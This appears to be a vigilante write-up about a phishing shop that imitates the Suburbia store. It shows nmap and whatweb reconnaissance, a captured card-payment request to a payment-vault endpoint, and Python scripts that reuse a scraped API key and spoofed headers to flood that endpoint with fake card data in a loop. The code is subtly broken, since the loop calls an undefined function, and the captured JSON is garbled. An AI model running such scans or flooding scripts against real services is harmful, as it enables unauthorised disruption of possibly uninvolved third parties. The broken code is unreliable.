 
The real page looks different to the fake one, on one hand the head of the page you can see options like services, credits and account: 

![](https://github.com/ZLCube/ScamScammers/blob/main/Suburbia/ss/2.png)

On the other hand the fake page has no account section and also its showing suspicious tags, for example "Trusted Store", purchase history from other users and last but not least really cheap price tags. 

![](https://github.com/ZLCube/ScamScammers/blob/main/Suburbia/ss/3.png)

There are also some interesting things like incusted data from other sites such as "facebook, yahoo and analytics.yahoo"; And the most important warning, the fake URL:
Starting point: https://suburbiashop.shop

![](https://github.com/ZLCube/ScamScammers/blob/main/Suburbia/ss/4.png)

First we need to obtain the ip address, I got it by ussing whatweb:

```c
❯ whatweb https://suburbiashop.shop/
https://suburbiashop.shop/ [200 OK] Cookies[PHPSESSID,_fbs_fbp,axwrt,first_http_referer,first_visit_time,landing_page,order_utm_history,shop_checkout_visit_id,shop_global_visit_id,shop_global_visit_session,shop_keep_alive,utm_campaign,utm_content,utm_medium,utm_source,utm_term], Country[UNITED STATES][US], Email[services@jerrewe.shop], HTML5, HTTPServer[cloudflare], IP[104.18.4.221], Open-Graph-Protocol[website], Script[application/javascript,application/ld+json,text/javascript,text/x-template], Title[suburbia.com.mx], UncommonHeaders[x-trace-id,execution-time,trace_id,cf-cache-status,cf-ray]
```

Now we can send an ICMP trace to validate if we are against a linux or windows server:

```bash
❯ ping -c 1 104.18.4.221
PING 104.18.4.221 (104.18.4.221) 56(84) bytes of data.
64 bytes from 104.18.4.221: icmp_seq=1 ttl=59 time=36.4 ms
```

Let's also find what services are running in the server

```bash
❯ sudo nmap -p- --open -n -Pn --min-rate 5000 104.18.4.221
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-04 20:49 EDT
Nmap scan report for 104.18.4.221
Host is up (0.63s latency).
Not shown: 65527 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
2052/tcp open  clearvisn
2082/tcp open  infowave
2087/tcp open  eli
2095/tcp open  nbx-ser
8080/tcp open  http-proxy
8443/tcp open  https-alt
```

I'll jump right to the main functionality, as we know, the page its impersonating `suburbia` their purpose is  to steal user's data. Let's intercept the payment requests to see where the data is going:

![](https://github.com/ZLCube/ScamScammers/blob/main/Suburbia/ss/1.png)

```r
POST /cvault/credit-card/temporal HTTP/2
Host: ppmcc.dlocal.com
Content-Length: 180
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
X-Fields-Api-Key: f8e7fd3b-3450-4ca5-ac49-101712109df6
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: application/json
X-Uow: FI-jyrAs1743814948808
Origin: https://static.dlocal.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://static.dlocal.com/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
	"expiration_month":"09",
	"expiration_year":"2029",
	"holder_name":"John Doe",
	"pan":"1233313133313111112",
	"key":"f8e7fd3b-3450-4ca5-ac49-101712109df6",
	"country_"cvv":"691"code":"MX",
}
```

Here we notice that we are sending a post request to upload the data to:

```js
POST /cvault/credit-card/temporal HTTP/2
Host: ppmcc.dlocal.com
```

The json format is getting the input data as:

```json
{
	"expiration_month":"09",
	"expiration_year":"2029",
	"holder_name":"John Doe",
	"pan":"1233313133313111112",
	"key":"f8e7fd3b-3450-4ca5-ac49-101712109df6",
	"country_"cvv":"691"code":"MX",
}
```

With this in mind we can saturate the server by sending some trash data, just to make fun of this attackers, so lets build a python script with the required headders to impersonate the POST requests: 

```python
import requests
import random
import string
import uuid

# Random data generator function
def generate_data():
    return {
        "expiration_month": f"{random.randint(1, 12):02d}",
        "expiration_year": str(random.randint(2025, 2030)),
        "holder_name": random.choice(["John Doe", "Alice Smith", "Carlos Pérez", "Maria Garcia"]),
        "pan": "".join([str(random.randint(1, 9))] + [str(random.randint(0, 9)) for _ in range(15)]),
        "key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
        "country_code": "MX",  # corregido el error en "country_"cvv"
        "cvv": str(random.randint(100, 999))
    }

# Required headders
headers = {
    "Sec-Ch-Ua-Platform": "\"Linux\"",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": "\"Chromium\";v=\"133\", \"Not(A:Brand\";v=\"99\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "X-Fields-Api-Key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "X-Uow": "FI-" + ''.join(random.choices(string.ascii_letters + string.digits, k=20)),
    "Origin": "https://static.dlocal.com",
    "Sec-Fetch-Site": "same-site",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "https://static.dlocal.com/",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i"
}

# Endpoint URL
url = "https://ppmcc.dlocal.com/cvault/credit-card/temporal"

# Send POST request
def send_data():
    data = generate_data()
    response = requests.post(url, json=data, headers=headers)
    print("Status Code:", response.status_code)
    print("Response Body:", response.text)

if __name__ == "__main__":
    send_data()
```

```bash
❯ python3 poc.py
Status Code: 200
Response Body: {"token":"CV-d6646a6d-9d48-4a72-b803-301fb23e96de"}
```

Great, our request it's working so lets make a forloop to send the random generated data  in range of 1 to 100:

```python
import requests
import random
import string
import uuid

# Loop range function (For spamming requests)
def loop():
	for i in range (1,100):
		enviar_datos()
		
# Random data generator function
def generate_data():
    return {
        "expiration_month": f"{random.randint(1, 12):02d}",
        "expiration_year": str(random.randint(2025, 2030)),
        "holder_name": random.choice(["John Doe", "Alice Smith", "Carlos Pérez", "Maria Garcia"]),
        "pan": "".join([str(random.randint(1, 9))] + [str(random.randint(0, 9)) for _ in range(15)]),
        "key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
        "country_code": "MX",  # corregido el error en "country_"cvv"
        "cvv": str(random.randint(100, 999))
    }

# Required headders
headers = {
    "Sec-Ch-Ua-Platform": "\"Linux\"",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": "\"Chromium\";v=\"133\", \"Not(A:Brand\";v=\"99\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "X-Fields-Api-Key": "f8e7fd3b-3450-4ca5-ac49-101712109df6",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "X-Uow": "FI-" + ''.join(random.choices(string.ascii_letters + string.digits, k=20)),
    "Origin": "https://static.dlocal.com",
    "Sec-Fetch-Site": "same-site",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "https://static.dlocal.com/",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i"
}

# Endpoint URL
url = "https://ppmcc.dlocal.com/cvault/credit-card/temporal"

# Send POST request
def send_data():
    data = generate_data()
    response = requests.post(url, json=data, headers=headers)
    print("Status Code:", response.status_code)
    print("Response Body:", response.text)

if __name__ == "__main__":
	loop()
```

```bash
❯ python3 poc.py
Status Code: 200
Response Body: {"token":"CV-e0e9537a-3610-48ec-a585-c2fd08d3196b"}
Status Code: 200
Response Body: {"token":"CV-9ad7ca06-6921-4c9e-bb51-0c5799816ede"}
Status Code: 200
Response Body: {"token":"CV-9d245d3a-8ff2-4aa4-bba9-292ce1fcde2b"}
Status Code: 200
Response Body: {"token":"CV-63156489-7d11-480b-a755-03ef3c8fb539"}
Status Code: 200
Response Body: {"token":"CV-a20f92ca-5c08-460b-9d1c-17d9ebad5535"}
Status Code: 200
Response Body: {"token":"CV-c1dae9b2-6d76-4ad1-80b2-a2345f2ee86d"}
Status Code: 200
Response Body: {"token":"CV-1a4ab6c9-2b8b-49d2-ba7c-b8ddf38f713d"}
Status Code: 200
Response Body: {"token":"CV-98729a6f-e7f6-424d-9a23-cedec3cad999"}
```

Cool, thats how you trick a scammer ;)

# PWNED BY ZLCube
